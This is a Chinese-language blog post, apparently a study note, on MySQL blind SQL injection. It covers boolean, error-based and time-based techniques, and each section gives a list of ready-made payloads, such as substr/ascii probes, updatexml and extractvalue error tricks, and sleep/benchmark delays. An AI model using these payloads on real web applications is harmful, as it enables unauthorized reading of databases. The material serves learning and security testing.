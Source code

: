 ```yaml
---
layout: post
title:  "SQL注入盲注"
date:   2018-11-25 20:15:33 +0700
categories: [Web安全, SQL注入]
---
```


## 0x00 盲注的理解

盲注就是在SQL注入的过程中，在SQL语句执行后，选择的数据不能回显到前端页面。需要一些方法进行判断我们的SQL语句是否被执行了，这个过程称之为盲注。分为三类：

* 基于布尔的注入
* 基于报错的注入
* 基于时间的注入

## 0x01 基于布尔的盲注

**常用的函数：**

* mid()
* substr()
* ascii()
* ord()
* left()

**一些payload：**

```
1. left(database(),1) > 'u' # //数据库名的第一个字符

2. ascii(substr((select table_name from information_schema.tables where 		   table_schema=database() limit 0,1) 1, 1)) = 100 --+

3. ascii(substr((select database()),1,1)) = 97 --+

4. ord(mid((select ifnull(CAST(username AS CHAR),0x20)FROM security.users ORDER
BY id LIMIT 0,1),1,1))>97 #

5. regexp正则注入：其他文章有详细介绍
	select user() regexp '^ro'
	1=(if((user() regexp '^r'),1,0));
	1=(select 1 from information_schema.tables
where table_schema='security' and table_name regexp '^us[a-z]' limit 0,1);

6. like  匹配注入，和正则类似，MySQL可以有like,其他查找相关函数
	select user() like 'ro%' //返回1或0
```

## 0x02 基于报错的盲注

**常用的函数：**

* concat()	
* updatexml()  //更新xml
* floor()     //向下取整
* rand()     //随机种子
* extractvalue()  //xml查询

目的就是有一个，构造 `payload` 让信息通过错误提示回显

**payload：**

```
1、* union select 1,count(*),concat(0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2))
   a from information_schema.columns group by a; //mysql的bug
   * union select count(*) from information_schema.tables group by 	  concat(version(),floor(rand()*2))
   * union select count(*) from (select 1 union select null union
select !1) group by concat(version(),floor(rand(0)*2))
   * select min(@a:=1) from information_schema.tables group by concat(passwo
rd,@a:=(@a+1)%2)

2、* union select exp(~(select * from (select user())a)) //double数值超出范围，版本5.5以上
   * union select !(select * from (select user())x) -（ps:这是减号） ~0
   	//bigint 超出范围；~0 是对0 逐位取反，很大的版本在5.5.5 及其以上

3、extractvalue(1,concat(0x7e,(select database()),0x7e)) //MySQL对xml数据查询，语法报错

4、updatexml(1,concat(0x7e,(select @@version),0x7e),1) //mysql对xml数据进行更新，语法报错

5、union select * from (select name_const(version(),1), name_const(version(),1))x;
	//mysql重复的特性，此处重复了version,所以报错
```

## 0x03 基于时间的盲注

**常用函数：**

* sleep()
* benchmark()   //边信道攻击，占用cpu资源

**payload：**

````
1、if(ascii(substr(database(),1,1))>115,0,sleep(5))%23 //if 判断语句，条件为假，执行sleep

2、union select if(substring(current,1,1)=char(119),benchmark(5000000,ENCODE(‘M
SG’,’by 5 seconds’)),null) FROM (select database() as current) as tb1;
````

